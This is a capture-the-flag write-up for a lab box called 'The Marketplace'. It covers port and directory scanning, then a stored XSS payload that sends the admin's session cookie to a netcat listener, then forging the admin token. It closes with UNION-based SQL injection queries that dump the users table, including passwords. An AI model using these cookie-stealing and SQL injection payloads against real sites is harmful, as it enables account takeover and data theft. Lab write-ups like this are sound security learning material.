Difficult: Medium
------------------------------------------
Note: The sysadmin of The Marketplace, Michael, has given you access to an internal server of his, so you can pentest the marketplace platform he and his team has been working on. 
He said it still has a few bugs he and his team need to iron out.
Can you take advantage of this and will you be able to gain root access on his server?
------------------------------------------

Reconnaissance:
+ Scan NMAP:
```bash
	nmap -sV -vv -A -p- <IP>
	PORT      STATE SERVICE REASON         VERSION
	22/tcp    open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol
	 2.0)
	| ssh-hostkey: 
	|   2048 c8:3c:c5:62:65:eb:7f:5d:92:24:e9:3b:11:b5:23:b9 (RSA)
	| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDLj5F//uf40JILlSfWp95GsOiuwSGSKLgbFmUQOACKAdzVcGOteVr3
	lFn7vBsp6xWM5iss8APYi9WqKpPQxQLr2jNBybW6qrNfpUMVH2lLcUHkiHkFBpEoTP9m/6P9bUDCe39aEhllZOCUgEtmLp
	dKl7OA3tVjhthrNHNPW+LVfkwlBgxGqnRWxlY6XtlsYEKfS1B+wODrcVwUxOHthDps/JMDUvkQUfgf/jpy99+twbOI1OZb
	CYGJFtV6dZoRqsp1Y4BpM3VjSrrvV0IzYThRdssrSUgOnYrVOZl8MrjMFAxOaFbTF2bYGAS/T68/JxVxktbpGN/1iOrq3L
	RhxbF1
	|   256 06:b7:99:94:0b:09:14:39:e1:7f:bf:c7:5f:99:d3:9f (ECDSA)
	| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHyTgq5FoUG3grC5KNPA
	uPWDfDbnaq1XPRc8j5/VkmZVpcGuZaAjJibb9RVHDlbiAfVxO2KYoOUHrpIRzKhjHEE=
	|   256 0a:75:be:a2:60:c6:2b:8a:df:4f:45:71:61:ab:60:b7 (ED25519)
	|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIA2ol/CJc6HIWgvu6KQ7lZ6WWgNsTk29bPKgkhCvG2Ar
	80/tcp    open  http    syn-ack ttl 62 nginx 1.19.2
	| http-methods: 
	|_  Supported Methods: POST OPTIONS
	|_http-title: The Marketplace
	|_http-server-header: nginx/1.19.2
	| http-robots.txt: 1 disallowed entry 
	|_/admin
	32768/tcp open  http    syn-ack ttl 62 Node.js (Express middleware)
	| http-methods: 
	|_  Supported Methods: HEAD OPTIONS
	|_http-title: The Marketplace

```

+ Scan Gobuster:
```bash
	gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirb/common.txt -xtxt -t64
	===============================================================
	/admin                (Status: 403) [Size: 392]
	/Admin                (Status: 403) [Size: 392]
	/ADMIN                (Status: 403) [Size: 392]
	/images               (Status: 301) [Size: 179] [--> /images/]
	/login                (Status: 200) [Size: 857]
	/Login                (Status: 200) [Size: 857]
	/messages             (Status: 302) [Size: 28] [--> /login]
	/new                  (Status: 302) [Size: 28] [--> /login]
	/robots.txt           (Status: 200) [Size: 31]
	/robots.txt           (Status: 200) [Size: 31]
	/signup               (Status: 200) [Size: 667]
	/stylesheets          (Status: 301) [Size: 189] [--> /stylesheets/]
	Progress: 9228 / 9230 (99.98%)
	===============================================================
	Finished
	===============================================================

```

+ First, we will sign up to create a new account.
+ Create new USER "username:user1 & password:1"
+ Log in /Login with the credential which is created.



+ After Login successful, we can look around the web page and we find some new page like /messages and /new.
+ Check each page /new we have the page 'Add new listing' with blank fields 'Title' and 'Description'.
+ In the situation, we can try some tag html like script, h1,...





--> Bingo! The pop up message appear. We found the security vulnerability XSS
(Cross-Site Scripting).

========EXPLOIT XSS=========:

+ Back to the home page we see the page list which we created. Go inside the page /item, we have 2 features: 



+ Feature 1: Contact with the author, we will send message to current user and that is user1.
+ Feature 2: Report to admins and the message report will be sent to admin.

--> We think some ideas that we can inject XSS vuln to retrive some sensitive information about the Admin.

+ View page source:


--> We know that we can exploit XSS base cookie or sensitive access token with "document.cookie" and "document.location"

+ Open "Developer Tools" or use Burpsuite:



--> We recive the token with value encoded. Decode the value we know that is the information user1.

+ We can manipulate cookie token by XSS to grant admin and access /admin.
+ Back to home page and we will exploit code.
+ We use "Data grabber for XSS"
+ Link: "https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#data-grabber-for-xss"

+ Now we create the new list and create the payload which will send it to a controlled page:
```bash
<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>
```



+ Use netcat to open the port listen:
```bash
nc -lvkp <port>
# -l: listen mode, for inbound connects
# -v: verbose mode
# -k: set keepalive option on socket
# -p: local port number
# In the situation, we have to use -k to keep the connection when we back to home page. 
```

+ Look at the netcat:



+ We got the recieve about the token cookie that is token user1.
+ Idea in here that is we can manipulate the feature "Report to admin" in the /item to take the token ADMIN.
+ When we report to admin, netcat will capture the request to admin and recive back the token ADMIN.




--> Check netcat again and now we have the token for new user:



+ Decode the token:
```bash
{
    "userId": 2,
    "username": "michael",
    "admin": true,
    "iat": 1728993550
}
```
--> User michael with admin permission.
+ We will insert new token replace the token user1 and access again in the page /admin.



+ We see some tables with information users.
+ Idea: We will try certain characters to test with purpose detect and discover the vulnerability on a website page. In this case, we guess that is the vuln SQLi.
+ We are able to extract data form the database to the same page base SQLi vulnerability.
+ First we will use some common characters to be sure this is SQLi vulnerability :
```
' OR 1=1 | OR 1=1 --
```
+ We test ' OR 1=1 in url first user and recieve error message:

 

--> It confirms the existence of an SQL Injection vulnerability.

+ We try again without (') OR 1=1:



--> It works. It is return data to the browser without displaying an error message.

==========EXPLOIT SQLi=============

+ Because we see the page return error message and right database so we are sure this is In-Band SQLi.
+ Firstly, we'll try the UNION operator so we can receive an extra result if we choose it. Try setting the mock browsers id parameter to:
```
1 UNION SELECT 1
```



--> This statement should produce an error message informing you that the UNION SELECT statement has a different number of columns than the original SELECT query. So let's try again but add another column and repeat to no error message aprrear:



--> Success, the error message has gone, and the article is being displayed, but now we want to display our data instead of the article. The article is displayed because it takes the first returned result somewhere in the website's code and shows that. To get around that, we need the first query to produce no results. This can simply be done by changing the article ID from 1 to 0.



+ You'll now see the article is just made up of the result from the UNION select, returning the column values 1, 2, 3 and 4. We can start using these returned values to retrieve more useful information. First, we'll get the database name that we have access to:



--> We'll now see where the number 1 was previously displayed; it now shows the name of the database, which is "marketplace"

+ We use next query to gather a list of tables that are in this database:

```bash
5 UNION SELECT group_concat(table_name),2,3,4 FROM information_schema.tables WHERE table_schema='marketplace'
```
### group_concat: the method gets the specified column (in our case, table_name) from multiple returned rows and puts it into one string separated by commas.
### information_schema database: every user of the database has access to this, and it contains information about all the databases and tables the user has access to.



+ We have 3 tables name as " items, messages, users"
+ Next we will extract the columns in each table_name.

```bash
5 UNION SELECT group_concat(column_name),2,3,4 FROM information_schema.columns WHERE table_name='items'
```



```bash
5 UNION SELECT group_concat(column_name),2,3,4 FROM information_schema.columns WHERE table_name='messages'
```



```bash
5 UNION SELECT group_concat(column_name),2,3,4 FROM information_schema.columns WHERE table_name='users'
```


+ After all we have the columns, we will extract all of the rows into one strings and make it easier to read.

```bash
5 UNION SELECT group_concat(id, ':' , isAdministrator, ':' , password, ':' , username SEPARATOR '<br>'),2,3,4 FROM users
```

